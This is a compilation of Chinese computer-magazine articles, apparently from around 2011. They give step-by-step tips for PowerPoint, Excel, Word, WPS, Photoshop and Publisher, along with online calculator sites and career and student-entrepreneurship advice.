
(文/胡跃东)

幻灯片备注快速批量删除

同事王老师准备了一节优质课课件，经过同事们的帮助和修改，准备向上级部门报送。可是在准备课件时，王老师在备注框中记了很多备注呢。这些内容王老师可不想报上去。一个一个的来删除也太麻烦了。其实，利用PowerPoint的“文档检查器”就能批量删除幻灯片备注。

- 1. 启动PowerPoint2007，打开要删除备注的幻灯片文件。单击窗口左上角的“Office按钮”，然后依次单击“准备→检查文档”，打开“文档检查器”对话框。
- 2. 在“文档检查器”对话框中，选中“演示文稿备注”前面的复选框，单击“检查”按钮。
- 3. 过一会儿，“文档检查器”就会告诉你检查的结果。如果你确定要删除全部备注，只要单击“全部删除”按钮，就可以删除所有的备注。然后单击“关闭”退出。
- 4. 最后需要按组合键Ctrl+S或单击“Office按钮→保存”命令再次保存文档。

(文/刘玉岗)

表格填写 自动复制有高招

中石化要为安徽省的农业机械提供农机专用加油卡，作为地方农机管理部门，我们需要上报一份清单。虽说所有符合办卡条件的农机信息已经保存在一个叫做“加油卡登记表.xls”的Excel文件中了，但这个表格中的身份证号码、登记证书编号这两栏为空（如图1），需要从我们的农机监理管理系统中按号牌逐个查询得出。接到任务后，顿时傻眼了——查询、复制、粘贴、复制、再粘贴……几百遍这样的重复劳动，谁受得了呀！

干这事得用脑子。冷静下来，分析了一下，发现这其实就是一个不断重复着同样动作的体力活而已，应该有这方面的软件可以胜任。网上找了一下，终于让我找到了ReMouse这款软件，圆满地完成了任务。

- * 第一步：下载安装ReMouse，运行后ReMouse就会最小化到后台工作了。
- * 第二步：打开“加油卡登记表.xls”文件，再运行农机系统，进入到查询界面（图2）。
- * 第三步：按下F7键，Remouse开始录制鼠标及键盘的操作过程。点击任务栏上的图标，激活打开的“加油卡登记表.xls”窗口，在B5单元格双击鼠标，拖动鼠标，只选定“00057”，然后按下Ctrl+C，将选定的内容复制。接着点击任务栏上的农机管理系统图标，激活窗口，在查询字段值后面的输入框中单击一下鼠标，使之取得输入焦点，按一下键盘上的Home键，使光标跳到开始处，再按下Shift+End组合键，选定方框中的内容（注意，开始时方框内即使无内容，也要进行这一步骤），这时候按下Ctrl+V，粘贴号牌，再单击右边的“查询”按钮。然后在查询结果中，单击一下身份证号码选定，再次单击一下，使之处于选择模式，这时按下Ctrl+C复制，然后单击任务栏上的图标，切换到表格中，在D5单元格中双击取得输入焦点，按下Ctrl+V粘贴身份证号码。同样的步骤，完成登记证书编号的复制。完成之后，一定要点击一下表格窗口中垂直滚动条下方的小倒三角图标，使整个表格向上卷动一行（因为Remouse是根据屏幕坐标来定位的，这一步一定不能省）。
- * 第四步：再次按下F7键，这样录制过程就完成了。按下F6试试，怎么样，“皖16/00063”这一行所需的信息是不是自动在完成？
- 这时候，还有两个问题：速度太慢，每次按下F6，只能完成一条记录的复制。解决方法如下：
- 第五步：双击托盘图标，打开ReMouse窗口，单击“Options→Playback→Speed”，调整回放速度为4X；单击“Options→Playback→Repeat”，在Repeat times栏，选择3（这样一次可以复制3条记录，如果这里填大于3的数字时，在回放的时候会提示你注册软件，那可是要银子的事哟）。
- 至此，按下F6，三条记录就会被自动的填充完成了，而且速度快了许多！

(文/许文学)

木业有专攻 专业计算我最行

日常生活自然免不了要“精打细算”，很多时候要与数字打交道。一般情况下，我们只要用系统自带的计算器即可满足大多数要求，但是在现实生活中，有一些“特殊需求”，则需要特别的计算方式才能提高效率。这里要给大家介绍一些实用的专业计算案例。

## 一、房贷计算

保民生，解决住房问题为首要任务。房价之高令大众难以接受，但是房子还是要买的，唯一的办法是贷款。购房贷款方法有多种，情况各不相同，用普通的计算器当然很麻烦。有幸的是，现在已经有人提出了“贷款计算一揽子方案”。小王是一位80后，现在到了结婚的年龄，买房子是大事，手上现金当然不会太多，于是想到贷款。

打开http://bj.house.sina.com.cn/gfnl/index.html，看到界面，提供的功能相当专业，从购房能力评估到多种贷款方法，甚至税费计算器、提前还贷计算器都已经提供。

首先按自己的财力来评估一下购房能力。输入购房资金（50万元）、月收入（3000元）、购房支出（1500元）和还款年限（2年24期）、房屋面积（90平方米）等参数，单击“开始计算”，得出计算结果。房屋总价：430000元、房屋单价：4777.78元/平方米、契税：8600元、维修基金：8600元、首付款：86000元、保险费：425.27元、律师费：1290元、抵押登记费：200-500元。

进行上述操作后，我们对于购房能力就心中有数了。接下来，我们可以尝试一下等额本息还款法和等额本金还款法，所涉及的贷款类别、按揭成数、按揭年数、利率等多种情况，都可以在下拉式列表中选择，十分详尽。只要把上面的数值代入，可以计算并得到相应结果。接着再单击“公积金贷款计算器”，然后输入相应的参数，可以得到可以申请的最高贷款额度、最低还款额、最后期本金、最后期利息、总偿还利息等我们关心的信息。这样我们就进行比较了，哪种方式贷款最为划算。购房不易，自然要“能省则省”，“榨干每一滴油”。

当然了，房贷利息是相当高的。如果你有充足的钱，当然要提前还贷款。因此，这时可以试着单击“提前还贷计算器”，然后输入相应参数来计算一下提前还贷的情况，你会发现更为轻松。

而且，只要输入最关键的数据—单价和面积即可快速获得结果。

最后要说明的是，提供房贷计算器的网站还有很多，这里再推荐一个http://www.bankrate.com.cn/cms/calc_list.php，操作起来相差不多，不再赘述。

## 二、个人所得税

个人所得税作为一种调节个人收入差距的有效手段，是大家平时十分熟悉的。不过，由于它是累进制的，涉及情况比较复杂，不仅有起征额，还有不同的区间、速算扣除数、扣除费率。由于涉及的情况十分复杂，所以很多人都不太清楚自己的工资到底被扣了多少税。

小张是公司的业务骨干，月工资有10000元，但是拿到手却只有8800多元，心中很是不解（理想很丰满，现实很骨感）。现在网上有了计算方法，打开http://finance.21cn.com/bank/computer/tax.html，在其中只要输入收入金额（10000）、各项社会保险费（360）和起征额（一般为2000）即可得出个人所得税，当然，我们还可以通过在http://www.51labour.com/zhuanti/2008protax/处计算，甚至可以在搜狗http://www.sogou.com中输入“个人所得税”来直接计算。

## 三、图表计算

小李是研发工程师，在办公做报表或写论文时，都需要在Word里插特别的图表计算公式。Excel可以进行简单的图表计算，但是在专业设计里，没法做出专业图表的。如何才能做出专业图表呢？利用e-Tutor来实现，只要打开http://www.e-tutor.com/et2/graphing，再输入相应的表达式（或函数），再单击Graph（图形）按钮即可生成其图像。我们可以对其进行放大、缩小等控制，也可以将其复制到其他文档中。另外，我们也可以通过Gcalc来进行图表计算，首先要从http://210.21.68.17:82/down/jre-6u17-windows-i586-s.zip处下载并安装Java Runtime Environment。

## 四、专业计算

小周是数学老师，需要的不只是图表，而是一些特殊的专业公式。现在有了一个好去处：http://web2.0calc.com/。只要单击相应的按钮，就可以输入相应的公式，并得到相应的结果。此网站不仅能够输出强大的专业公式，还可以进行专业的计算，可谓是一举两得。有了这些专业的计算器，我们是不是感觉更轻松、更便利了？网络时代，一切皆有可能。

(文/刘辛未)

图片插入文档 不走弯路

由于工作的原因，经常要用截图软件把截取到的图片插入到Word文档之中，或者要把网上搜索到的图片插入到Word之中，一般的方法都要先保存图片文件，然后再用插入图片的方法插入。每次都是这样的步骤，很麻烦，有没有更为直接一点的方法呢？

## 截取图片到 Word

这里我们以常用的软件HyperSnap为例。首先打开正在编辑的Word文档，然后运行HyperSnap，依次单击“捕捉→捕捉设置”，打开“捕捉设置”窗口，单击选中“复制和打印”，勾选“复制每次捕捉的图像到剪贴板”和“粘贴每次捕捉的图像到”两项，然后单击“粘贴每次捕捉的图像到”右侧的下拉按钮，从下拉菜单中选中打开的Word文档，最后单击“确定”。经过这样的设置后，每次截取到的图像，就会直接插入到Word文档之中。

## 搜索网页图片到 Word

把网页中搜索到的图片直接插入到Word文档中，先去http://download.cnet.com/G-Image/3000-20411_4-10972963.html下载“G-Image Addin”这款插件并安装，然后打开Word文档。依次单击“插入→图片→G-Image Addin”，打开插件窗口，在“搜索”框中输入图片关键词进行搜索，然后从搜索列表中选中所需图片，单击“Insert image”即可直接插入到Word文档中。

(文/曹春华)

自己动手制作Top Sites效果画报

学校门前的橱窗中要展示学生风采的画报，女儿有幸获得了一次展示机会。毕竟全校有上千人，这样的机会是不可多得的。我自然是不能让女儿失望，决定自己动手设计。女儿获得的奖状倒是不少，怎样排版展示出来效果才好呢？想起自己曾用过Safari浏览器，它的Top Sites效果挺不错的，如是决定把画报设计成类似的样子。具体操作如下：

1. 使用相机的微距模式（这种模式下，近距离拍摄的图片上面的文字依然清楚，具体设置请参看相机说明书），拍摄所有奖状，导入电脑后，使用Photoshop裁剪出奖状并调整大小为500×400像素（图像大小可根据奖状数量，灵活设置），这个步骤最花时间。
2. 打开Photoshop（本人使用CS3 10.0版），新建一个文件，大小为594×420毫米（A2纸张的尺寸），分辨率为150像素/英寸（因为最终的画报要喷绘出来展示，这个分辨率是喷绘机的要求），并填充适当的背景色。
3. 打开一张奖状文件，使用移动工具直接拖动这张奖状至刚才新建的文件窗口上，移动到合适的位置，关闭奖状窗口。同样的操作，依次将所有奖状拖至这个新建的文件上，并排列好。
4. 在图层面板，点击图层1，并按住shift键，再点击图层5，这样同时选中了图层1至5（也就是第一行的5张奖状），按下Ctrl+E，合并图层。同理，将第二行和第三行的奖状图层分别加以合并。
5. 鼠标右击图层5（第一行奖状），在弹出的菜单中选择复制图层，并确定，得到图层5副本，选择菜单“编辑→变换→垂直翻转”。移动图层5副本至图层5下方，设置其不透明度为30%，点击图层面板下方的添加矢量蒙版按钮，并对此蒙版使用渐变工具进行填充。同样的步骤，对第二行及第三行奖状进行操作，这样每行奖状的倒影效果就出来了。
6. 选中除背景层外的所有图层，Ctrl+E合并图层，对此图层添加投影样式，并确定。按下Ctrl+T组合键，在属性面板中选中“在自由变换和变形模式之间切换”按钮，变形下拉框中选择：凸起，弯曲度：20%，并确定。
最后在下方加入一些介绍文字，这样一张类似Safari中Top Sites效果的展示画报就制作完成了，剩下的工作就是拿去喷绘了。

(文/许文学)

职场新手快速升级宝典

经过海投简历、多轮面试，我们终于得到一份工作机会，很多大学毕业生步入社会，开始自己人生新的篇章。但是社会关系复杂的职场有别于社会关系简单的校园，在职场中工作关系可能比工作能力还重要。如何才能快速得到同事、领导的认可，为自己建立起和谐的工作环境呢？

尝试主动接手有难度的项目

要想让上级领导、同事认可你的能力，当然要在关键时刻有出色表现。但我是新手，有能力完成有难度的项目吗？如果事情没办成，会不会给大家留下不好的印象？实际上，以我的工作经验，不怕做错事的人，就怕不干事的人。一项困难的工作摆在面前，如果每次你都积极接手，会给大家以及客户留下你积极解决难题的好印象，即使有些过错，我相信，他们依然会对你刮目相看的。久而久之，你不但会博得上司的信任，你的自信心也会大大增强。

我刚参加工作那会，IT部门需要完成公司基础网络的架构，而领导竟然给我这个新手安排的是总经理办公室的布线、OA设备（电话、投影、打印机、扫描仪）调试的工作。当时说实话虽然我是计算机专业科班出身，具备CISCO证书，但除了在CFan杂志上读过类似的文章，实际工作经验为零，但领导都安排了，我也只好硬着头皮接下，在“搜索引擎(baidu, google)的帮助下，经过整整三天，我完成了我的第一个项目（顺便教会了经理用Webex在线会议）。虽然两个月后我们经理又带着我进行了返工，但事后当然是有了跟着领导接大项目机会喽！所以比起工作成绩、领导更看重的是工作态度，即使最后的结果不是最完美的，但至少挑战了你自己，最关键的是高难度的工作带来的经验值是平常工作无法企及的。

尽量保持低调

作为职场新手，假如你工作能力鹤立鸡群，也不要把自己看得太重要，因为在我们这样一个人力资源极为丰富的国家里，就算你的工作业绩非常出色，也不能保证你不会被取代，而我们的领导大都比较欣赏忠诚可靠的部下，在他们的眼里，工作的态度要比工作业绩更重要。正如心理学家罗伯茨曾说过的，“在聪明与忠诚面前，领导的选择永远是后者”。所以作为新人的你，如果不是比尔盖茨、史蒂芬乔布斯的话，还是尽量保持低调些，不是每个领导都喜欢个性张扬的员工。

有合作精神

在IT界，最容易出现的问题就是：销售人员钩心斗角、互挖墙角；技术人员各自为营、固步自封。但是我所接触到的欧美500强企业（如3M），大都愿意重用顾全公司全局利益、有责任心并且忠诚的员工，因为他们的核心能量可以影响自己的团队，影响别的团队，打破销售部和技术部之间的坚冰。既然顶尖的公司都会采取“学习性组织”（团队管理）的管理模式，那么像“第一滴血”里的Number当然不会得到公司内部同事的支持，领导的认可了。

敢于担当、做人低调、具备合作精神，虽然道理浅显，但对于刚入职场、锐气难挡的新手来说，做起来还是有些难度的，但善用这几条看不见的职场“潜规则”，自然会为职场生活锦上添花的。

作者后记

其实我毕业后的工作经历比较坎坷，第一年换了3份工作，不是因为我不努力，而是公司都倒闭了。后来到了南京，辗转各大招聘会3个月后，被一家上市公司录用。刚工作时，公司高层对我并没太多关注，我只是从事一些打杂的工作。幸运的是，老板比较注重工作态度，喜欢默默工作的员工。我在经历本文中总经理室的那段冒险后，年终奖发了许多，后来渐渐把更多的事交给我担当了。我在文章写到捷径，但现实生活中哪有捷径可言？脚踏实地就是捷径，记住天道酬勤！

(文/叶勇)

公平竞赛 保密很重要

在每年的市级计算机学科上机竞赛中，同学、老师往往精心准备几个月，辛苦可见一斑。成绩的客观公正对大家的影响很大，令考生不满意的是成绩有水分。评委组有本校老师参加时，学生成绩较好，而没有抽到评委资格时，该校成绩差。所以竞赛没有从制度上杜绝违规的发生，如果能仿照高考网上阅卷的案例，一切问题都可迎刃而解。

今年我们要求考生在进入考场时，随机抽取上机机位号，然后登记相应学校及本人姓名，并规定考生的考试文件夹为所抽取的机位号，而不再像以前以考生姓名命名。考试结束之时，我们使用“极域电子教室”作业回收功能，将所有考生文件夹回收备份，既无数据丢失速度又快，为后面的快速阅卷提供了保障。

考生的机位号对应考生的文件夹，所以在分发试卷给各个评委时，必须做保密处理。这次选择软件Flexible Renamer8.3，启动软件打开试卷文件夹，选择插入日期时间于开头。

单击“重命名”按钮，然后分发改名文件夹给评委，这样评委是看不到任何考生信息的，在一定程度上防止了人情分的存在。

评分结束统计分数时，再点击“还原”按钮，更名文件夹又返回原始的机位号文件夹，产生考生真正成绩。更为神奇的是该软件支持正则表达式与编程，这样就可更灵活地改变文件夹的名字。

总之，此次竞赛组织工作较为圆满，师生普遍反映竞赛公平公正，今后将在其他科目考试中也引入网上阅卷的功能。

(文/段晓东)

今年过节不跳槽

职场有言“金九银十”，每年的九、十月是传统的跳槽旺季，对于各大企业的HR们而言，此时是物色贤才、做好储备的良机。对于求职者而言，此时正是求得一个好东家，为来年职业生涯打开新篇章的时机。总之，从供求双方来说，九、十月都是蠢蠢欲动的活跃期。

2011年“金九银十”的职场将是什么样的走势？专家预测，今年的跳槽季不会太旺，想跳不敢跳的人居多，卧槽者比跳槽者更多，其主要原因包括高企的CPI指数、房贷等生存压力，求职困难……种种因素导致跳槽族越来越理智。

【专家建议】跳槽不分季节，不要随波逐流，旺季的竞争更激烈。

首先，要看准自己的兴趣爱好和特长，选择合适的职业方向。比如做销售和财会对人的性格要求完全不同，销售要求有较强的沟通能力，最好性格外向活泼，善于与人打交道；财会要求性格严谨，能整天面对刻板的数字保持注意力集中。

此外，跳槽者还要看准行业的发展潜力，比如汽车、房地产等行业受政策的影响，绿色能源行业的潜力大等。

值得注意的是，跳槽要有连续性，在岗位、企业、行业三者之间，可以先换岗位和企业，在条件成熟或者自己具备一定专业素养和实力的时候，再考虑转行，最好不要同时变化。因为全部推翻、重新再来，有可能让跳槽者一时难以适应。

其实，跳槽也有一定的风险，专家建议如果在企业内能得到器重并有好的发展前景，就不要因为眼前的一些利益而盲目跳槽。越是注重员工成长的企业，就越是注重员工的忠诚度，良好的业绩和表现当然重要，但在每个自己待过的岗位上恪尽职守的员工，更能留下优秀的印象，也更容易受到器重。

(来源/中国经济网)## 大学生创业 在哪里跌倒

近年来中国掀起一股创业高潮，很多大学生毕业之后便直接创业，更有甚者边上学边创业。但毕竟成功者总是少数，数据显示，中国大学生创业的成功率只有10%。到底是什么阻碍了大学生创业，他们究竟跌倒在哪里？下面，我们就来听听创业者们的感言。

## 资金是最大的缺口

大学毕业的我本来找好了一家事业单位，偶然的机会遇到了现在的合作伙伴，心血来潮加入了他的家政公司。家政行业和我所学专业可以说风马牛不相及。但我很看好这个行业。这样我在零经验、零基础的条件下，开始了草创，都说隔行如隔山，此话不假。我不仅需要了解这个行业的方方面面，还要学会和农民工、各行各业的客户打交道，其中的困难和辛苦不言而喻。

创业至今8个多月了，最大的阻碍就是资金！前期的资金投入非常大，已经借了不少钱，全靠家人和朋友支持，创业半年后公司逐渐有起色，但是房租等成本也跟着上涨，好不容易挣了点钱，还不够交租金、支付员工工资什么的。我创业的最终目标是做慈善，在这之前首先要争取到融资。目前还在等待风投，不知道我们还能支撑多久，如果没有新的资金注入，那前期的所有努力就白费了。

## 创业感言：

- 资金不充足不要创业；
- 不要轻易涉足不熟悉的领域；
- 最好先在目标领域工作一段时间，积累一些人脉、经验再去创业。

## 销售是道关卡

在大学我学习的是计算机网络，马上就要大学毕业了。面对着巨大的社会就业压力，无奈之际想起了自己曾经的想法——创业。

回想起第一次创业，是在商业街租格子铺，一个月租金200元，从网上进点香包、眼镜放里面卖。可人流量太少，第一次就亏本了，便放弃了格子铺。

2010年3月注册网店，开始了我的淘宝生涯。在学校图书馆看了关于淘宝的很多书，觉得信誉比较重要，于是开始刷信誉，可是没刷几个就被淘宝降信誉了，接下来好几个月都不碰网店了，直到6月底才把店铺升为标准版，又花钱装修了一下，开始代理韩版衣服。本以为生意会好点，可是始终没有顾客，一个月共卖掉两件，其中一件还是同学给面子买的。后来又被一位买家骗了。

看来我还真是不懂推广网店，投资进去的钱花得很心疼，感觉打了水漂儿。

## 创业感言：

我觉得，大学生创业几乎没有优势，我们在学校学的那些知识（除经济专业同学），在创业阶段几乎是用不着的，即使找到了和专业对口的项目，也基本上没有用武之地。销售就是一关，即使专业知识再丰富，没有好的销售，依旧是难以生存的。另外，可以说我们基本上没有社会经验，在决定开始创业的时候，就要有心理准备，有可能会被骗到，而且可能会很惨，销售之间的竞争更是无法揣摩，有时还没怎么做，可能自己的店就要关门了，因为每天都在亏本。

## 自我宣传最让人头痛

我是一个艺术学校的在校生，专业是室内设计。我了解到墙绘这一行具有广阔的发展前景，便在学校报班学习了墙绘，半年前和学长筹划创业。创业中最痛苦的莫过于市场推广了，对于习惯了埋头画画的我们来说，并不知道如何宣传自己的墙绘。由于公司小，没有名气，我又没有人际关系网，经验不足，前三个月我们没接到任何订单！此外，还面临着学习方面的压力，以及别人对我们的不理解。在没有太多资金支持的情况下，目前只能通过博客、论坛来宣传。

## 创业感言：

我认为创业最重要的就是要有很强的毅力，坚持不懈，记得有一句话这样说，今天很难过，明天很痛苦，后天很美好，但是大多数人都死在了明天。所以，这点是很重要的。此外，在知识方面我们需要有很大的吸取量，对市场营销和经济学要多多了解、掌握，这样会推动我们的事业加快发展。

尽管大学生创业的成功率很低，但这并不能阻挡大学生自主创业的步伐。不管你曾经创过业还是正打算创业，都欢迎发信至zc@cfan.com.cn，谈谈您的看法和体会。

## 唐诗三百首快速转分页演示文稿

古人云“熟读唐诗三百首，不会做诗也会吟”。最近我下载到一个唐诗三百首的Word文档版，准备利用暑假和孩子一起提升文学素养。可是Word文档中的唐诗，一首连着一首，不方便在电脑上显示给孩子看，于是我就想将每一首诗都放置在一张独立的幻灯片中，以便于全屏播放。然而，把Word文档中的三百多首唐诗一一复制到PowerPoint中，操作起来烦不胜烦。

后来发现，借助Word 2003提供的“文档发送到PowerPoint”功能，可以将大量排版样式相似的文字，一键转存到PowerPoint当中，稍加编辑美化，就可以迅速得到我们想要的演示文稿。

首先，运行Word 2003，打开对应的Word文档，按住Ctrl键不放，用鼠标左键依次拖动选中各首诗的正文内容，执行“格式→项目符号和编号”命令，选择任意一种项目符号，单击“确定”按钮。由于唐诗三百首文字内容较多，这里可以分批次选中不连续的文档内容，分别执行上述命令，插入同一种项目符号即可。

然后，执行“文件→发送→Microsoft Office PowerPoint”命令，系统会自动打开PowerPoint，将每一首诗都单独放置在一张自动版式的幻灯片中。

由于该文档包含三百多首唐诗，而Word文档一次只能发送两百多个幻灯片，因此需要将文档分成两个文档，分别执行上述命令，发送到两个演示文稿当中，再将后一个演示文稿的全部内容复制粘贴到前一个中去，就可以完成合并操作。

由于PowerPoint自动版式模板中有两个文本框，上面一个是标题文本框，下面一个是内容文本框。对于Word文档中的发送文本，系统默认以段落符号（直接按回车键可以生成）作为标题文本框内容的分隔符号，而对于设置了项目符号的文本内容，则会自动插入到内容文本框。如果文本内容包含多个段落，还需要将回车换行符号查找替换为人工换行符（同时按下Shift键和回车键可以生成），对文本内容进行人工换行操作，例如，每一句唐诗结束后的换行，必须要使用人工换行符，否则无法进行正确的文档发送操作。

无论Word文档中原来的文字格式如何，一旦发送到PowerPoint之后，所有幻灯片的标题文字都是宋体44磅，居中对齐，内容文字都是宋体32磅，左对齐。对于文字较多的唐诗，常常会超过文本内容框的现实范围，为了获得更好的幻灯片显示效果，还需要对自动生成的演示文稿版式进行必要的编辑美化。首先执行“格式→幻灯片设计”命令，选择一种适合文本主题、具有古典气息的页面设计模版，并应用于所有的幻灯片。然后执行“视图→母版→幻灯片母版”命令，打开母版视图设计界面，将自动版式的标题文本框设置为楷体、加粗，将自动版式的文本内容框设置为楷体、加粗，36磅，居中对齐。上述修改操作完成之后，单击“关闭母版视图”按钮，自动版式修改操作即可生效。

由于部分唐诗的文内容较多，自动生成的文本框有可能无法显示全部诗文内容，我们还需要通过逐页预览的方法，将效果不佳的幻灯片查找出来，再进行简单的修改操作。

这样，不到十分钟，Word文档中的三百多首唐诗设计成一首诗一张幻灯片的形式，并且幻灯片编号与每一首唐诗的编号一一对应，阅读和学习都比Word文档更加方便。遗憾的是，在Word 2007当中，我却没找到类似的文档发送选项，我想是不是微软公司觉得这个功能没有多少人会用到，所以就没有将其添加到新版本Word软件当中。

## 无米之炊 免费玩转文献检索

为期一年的毕业论文在暑假揭开了序幕，导师要求9月开学提交一份开题报告。这必然需要查询一些期刊文献以对课题有初步的了解，但是学校的各科数据库资源回家后无法使用，别说是外文文献，即使是三大数据库的中文文献也无能为力。面临巧妇难为无米之炊的窘境，难道只能坐以待毙吗？当然不能，以下的方法可以有效地解决我们的燃眉之急。

## 中英文检索：联合参考咨询与文献传递网

利用联合参考咨询与文献传递网（ucdrs.net，以下简称文献传递网）的文献传递服务，我们可以免费获取诸多中英文文献。文献传递网提供了3种联合参考咨询：普通咨询、文献咨询和外文咨询，有了它的帮助，即使学校没有购买数据库或者遭遇数据库过期等窘况，我们也能有效地获取所需要的中英文文献。

首先注册一个账号并登录，以想获取的外文期刊文献名为检索词进行搜索，点击“联合参考咨询→文献咨询”进入数据库列表页面，根据文献类型选择数据库并点击搜索。

由检索的结果选择拥有该文献的数据库，依次点击“读秀外文期刊→请求文献传递”，在弹出的对话框输入一个邮箱地址，所需的文献会在2个工作日内发送到该邮箱。

## 日文检索：Google 学术搜索

由于种种原因，以往获取日文文献多通过图书馆文献传递或从国家科技图书文献中心（NSTL）购买，但效果有限，亦不是长久之计。如今日本建立了大量免费提供文献的开放存取机构和资源，极大地降低了日文检索的难度，提高了免费获取日文文献的几率。只要能检索到的日文文献，多半可以免费下载（目前世界上最全的日文论文数据库CiNii，地位相当于我国三大数据库，其中有50%可以免费使用），在一些学科领域其数量甚至多余NSTL中收费获取的文献。

对学术搜索、Scirus、Socolar、PORTA和GeNii等多个搜索引擎及综合平台检索并对比后发现，Google学术搜索的效果是最佳的。

## 小提示：

文献检索难屡见报端，其难点在于外文检索以及高效且通过免费的途径获取我们需要的文献。借助文献传递网和Google学术搜索，中英日三文文献的检索和获取不再是难题。多阅读各种语种的文献实际上是给自己多打开一道门，有句话说：翻译家是先知。希望上述方法可以给大家学习和工作提供些许帮助。

## 工作名片高效设计印刷一法

许多人的名片都是拿到外面去设计印刷，也有自身用Photoshop或Word来排版设计并打印。如果你想用最高效的方式设计和印刷名片，那么，使用微软的Publisher算是一个很好的方法。它既不需要你跑腿到名片店，也不需要你动多少脑筋。本文讲述如何在Publisher 2007中设计制作和打印工作名片。

- 第一步：安装含有Publisher 2007的Office 2007套件，通过开始菜单启动Publisher 2007。
- 第二步：从“常用出版物类型”窗口列表下选择“名片”一项。
- 第三步：从Microsoft Office Online模板列表中挑选一个自己中意的名片模板。注意，在模板列表中，系统提供了“较新设计”和“经典设计”两大类现成模板。此外，还提供了一类叫做“空白尺寸”的名片模板，其下又包含有7种尺寸供你选择。
- 第四步：选中一个模板后，点击窗口右下角的“创建”按钮，随后即可进入名片编辑界面。在这里你可以点击名片上的各种元素，修改为你自己的属性即可。
- 第五步：名片做好后，先保存名片，然后就可以打印输出了。

就这么简单。看来，干什么就得用什么工具，用对工具往往会事半功倍。
（文/阿南）

## 快速编排考场 轻松分派监考

笔者所在学校每次组织考试，都需要将同一年级的学生按上次考试成绩排考场。要求安排考生所在考场和座号，每个考场30人。在编排时需要分好差试场，保证成绩在同一档次的学生尽可能安排到同一考场。还要求考场中前后相邻考生不同班。并要求安排监考教师，要求回避自己所任课程考试科目。这些手工完成比较麻烦，那就来使用“考场编排小秘书”快速搞定吧，它是使用Excel VBA编写开发的Excel文件，支持Excel各种版本，使用起来很方便，只需启用宏就可以正常运行。

## 一、快速编排考场

打开“考场编排小秘书.XLS”文件，在“学生名单”工作表中，将上次学生成绩信息粘贴进来，其中必须包括班级、姓名和总成绩，做为排考场的依据。点击“学生名单”工作表右上角的“编排考号”按钮后，切换到“考场编排表”工作表下。同时弹出“小秘书提示”框，要求输入考场数量，并给出当前共有的考生数，在下方的框中输入需要编排的考场数，点击“确定”按钮，再次弹出提示框，询问是否每个考场的考生平均分派。学校要求30个学生一个考场，所以点击“否”按钮，再在出现的提示框中输入考场的学生数，输入好后，点击“确定”按钮，又给出提示，并说明考场数、每个考场考生人数，信息无误后，点击“是”按钮，又弹出是否要分好差考场提示框。点击“是”按钮，在弹出的提示框中输入起始考号。这儿需要注意输入形如“20110001”这样形式的考号，就能得到按考场编辑出的考号来。点击“确定”按钮，很快考场编排完成。

考场编排好后，显示在“考场编排表”工作表中，同时给出编排完成提示。考场编排完成，编排的考场同班学生没有相邻的情况，考场号、考号、座号都自动编排好了。点击“考场编排表”工作表左上角的“分考场输出”按钮，切换到“分考场打印表”工作表下，并自动按考场编排表中编排效果，分别编排好试场。随后排版打印出来即可。

## 二、分派监考教师

切换到“教师名单”工作表，输入班级、科目和任课教师姓名。最后点击“分派教师”按钮，在弹出的“监考教师是否要回避自己所任课程的考试”提示框中点击“是”按钮，就可以在“教师监考表”工作表中为所有考场分派好监考教师，同时在下方统计出每位教师的监考场次。最后设置好考试时间并排版打印即可。

下载地址：http://www.cctv-10.net/ktz/kcbp.htm
（文/赵晓琴）

## 巧用分节符 速制错格表

在日常使用“WPS文字”制作左右错行表格的过程中，常会遇到表头对应的文字内容存在“分布不平衡”的情况，大家往往采取“增加行高或列宽，合并单元格”等操作来反复调整每个单元格，以达到左右平衡的效果。但依此法制作出的表格，既费时，又有失美观。其实，只要正确理解“分节”的概念，并巧妙运用“插入分节符”、“分栏”等技巧，就能轻松制作出左右均衡的错行表格，如图1所示。

| 姓名 | 王小秋 | 家庭成员 | 父亲：王春天<br>母亲：李秋天<br>姐姐：王小春 |
| :--- | :--- | :--- | :--- |
| 性别 | 男 | 家庭住址 | 河北省秦皇岛市北戴河区幸福之家社区三区第**栋**单元**室 |
| 年龄 | 30 |  |  |

- 第一步：特定表格预插入。鼠标单击“表格”菜单，在菜单中单击“插入”子菜单下的“表格”命令，在“插入表格”提示框内，将行数设为“5”（宜为大于3的奇数），列数设为“2”。
- 第二步：表格行高精设置。鼠标选择表格上的“1-3”行，鼠标右键单击所选区域，在快捷菜单中选择“表格属性”，在“表格属性”设置框中单击“行”标签，勾选“指定高度”，设置为“2厘米”，行高值设为“固定值”，单击“确定”。用同样方法设置表格“4-5”行“指定高度”为“3厘米”。要求“1-3”行的总高度等于“4-5”行的总高度。
- 第三步：首尾均插分节符。鼠标单击表格首行首列单元格第一个文字前，鼠标单击“插入”菜单，在菜单中单击“分隔符”子菜单下的“连续分节符”，如图2所示。鼠标单击“视图”菜单，在菜单中单击“大纲”命令，将鼠标定位在表格所在行的段落标记前，依上步方法插入“连续分节符”，将表格的首尾分别加入了连续分节符，形成了一个单独的节，如图3所示。
- 第四步：分栏“折叠”细设定。鼠标单击“视图”菜单，在菜单中单击“页面”命令，鼠标选择表格上的所有文字内容及鼠标所在的段落标记。鼠标单击“格式”菜单，在菜单中单击“分栏”命令，在“分栏”提示框内“预设”提示栏下选择“两栏”图标，勾选“栏宽相等”，并将“宽度和间距”提示栏下“间距”设置栏内的数值设为“0字符”，并在“应用于”提示栏内选择“所选节”，鼠标单击“确定”。

| 姓名 | 王小秋 | 家庭成员 | 父亲：王春天<br>母亲：李秋天<br>姐姐：王小春 |
| :--- | :--- | :--- | :--- |
| 性别 | 男 | 家庭住址 | 河北省秦皇岛市北戴河区幸福之家社区三区第**栋**单元**室 |
| 年龄 | 30 |  |  |

小提示：“连续分节符”的作用是将本来在“一栏”内显示的表格各行平均分配在“两栏或更多栏”内显示（表格的“总高度”/“分栏数”=“在每栏内显示的总行高值”，“在每栏内显示的总行高值”/“每行的行高”=“在每栏内显示的行数”）。第二步中分别设置行高值即是实现表格左右对齐的前提。分栏值的设定中，“间距为0”的设置是为了消除由于分栏造成的左右表格之间的空隙，从而达到视觉上是“一张表”的“折叠”效果。

| 姓名 | 王小秋 | 家庭成员 | 父亲：王春天<br>母亲：李秋天<br>姐姐：王小春 |
| :--- | :--- | :--- | :--- |
| 性别 | 男 | 家庭住址 | 河北省秦皇岛市北戴河区幸福之家社区三区第**栋**单元**室 |
| 年龄 | 30 |  |  |

## 分节符在书籍排版中的妙用

以上是分节符使用的一个特例，而分节符最常用在书籍排版中。在一些长文档的编辑以及图书编纂中，常常需要在文档中使用特定的页码编辑。比如说一本书，前面10页为目录，从第11页开始为正文，对正文的页码编辑需要从1开始。这个时候，“节”在Word中的重要性就显示出来了。

